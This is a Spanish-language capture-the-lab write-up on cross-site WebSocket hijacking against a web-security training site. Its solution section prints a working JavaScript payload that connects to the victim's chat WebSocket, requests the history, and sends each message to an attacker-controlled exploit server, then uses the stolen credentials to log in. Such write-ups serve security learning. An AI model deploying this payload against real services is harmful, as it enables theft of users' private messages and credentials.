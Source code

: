 Este laboratorio presenta un escenario en el que un canal WebSocket se encuentra mal protegido, permitiendo que un atacante pueda establecer una conexión maliciosa desde otro dominio y extraer información sensible.

La aplicación incorpora un sistema de chat que utiliza WebSockets para gestionar la comunicación. Analizando la interacción con el servidor, identificamos que no existen medidas de protección contra peticiones cruzadas (como tokens CSRF o validación de origen), lo que abre la puerta a un ataque de tipo cross-site WebSocket hijacking.

El atacante construye un payload malicioso en una página controlada, capaz de establecer la conexión WebSocket directamente con el servidor del chat. Desde ahí, simula el comportamiento legítimo del cliente, solicitando el historial de conversación. Una vez recuperados los mensajes, estos se reenvían a un servidor externo (como Burp Collaborator) para su análisis.

El laboratorio se resuelve cuando logramos obtener, entre los mensajes de la víctima, sus credenciales de acceso, y las usamos para iniciar sesión en su cuenta. Esto demuestra cómo una falta de validaciones en el establecimiento de conexiones WebSocket puede comprometer la seguridad de los usuarios.

Solucion
bueno vemos que de igual forma tenemos un chat live y un exploit server el cual nos ayudaria para poder pasar toda la infomacion de este chat
para ello vamos a crear un script en JS el cual nos va a facilitar la entrada
payload (<script>
    var ws = new WebSocket("https://0acc0036041407c480cd039c00110057.web-security-academy.net/chat");
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch("https://exploit-0a9b00a20482072d802202ec01a00045.exploit-server.net/?data=" + btoa(event.data));
    };
</script>)

Este script es un **payload de exfiltración de datos**:

- Escucha mensajes de un chat o sistema WebSocket.
    
- Los envía a un servidor controlado por el atacante.
    
- Es un ejemplo de **XSS (Cross-Site Scripting) combinado con exfiltración de datos en tiempo real**.
    

💡 **En resumen:** este script roba información que fluye por la conexión WebSocket y la envía a otro servidor externo. Es el tipo de cosa que se usa en pruebas de seguridad (o ataques) para **capturar información confidencial en tiempo real**.

lo copiamos y pegamos en nuestro exploit
![Pasted_image_20250821001949.png](Imagenes/Pasted_image_20250821001949.png)
vemos los logs
![Pasted_image_20250821002012.png](Imagenes/Pasted_image_20250821002012.png)
tenemos info lo vamos a copiar y pegar en un archivo
![Pasted_image_20250821002231.png](Imagenes/Pasted_image_20250821002231.png)
y esto es lo que miramos
![Pasted_image_20250821002321.png](Imagenes/Pasted_image_20250821002321.png)
ya solo nos logeamos
![Pasted_image_20250821002414.png](Imagenes/Pasted_image_20250821002414.png)
